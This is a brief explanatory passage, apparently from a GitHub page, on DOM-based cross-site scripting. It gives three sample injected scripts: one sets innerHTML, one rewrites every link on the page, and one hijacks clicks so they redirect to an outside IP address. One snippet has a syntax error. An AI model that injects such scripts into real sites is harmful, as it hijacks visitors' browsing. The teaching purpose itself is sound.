 DOM based XSS vulnerabilities lies in client-side script.**Regularly DOM XSS is occurred when document object model is modified with attacker controllable part of the DOM** 
because The client-side scripts within an application's response take data from an attacker controllable part of the DOM.
```
<script> 
document.getElementsByTagName("Test")[0].innerHTML = "Test";
</script>
```

```
<script> 
var links = document.getElementsByTagName("a");
for (i=0; i < links.length; i++)
{
    links.[i].href = "http://192.168.100.100:9090/test.txt";
}
</script>
```

```
<script>
function CaughtClick()
{
    location.href = "http://192.168.100.100:9090/test.txt";
}
document.body.addEventListener('click', CaughtClick, true);
</script>
```
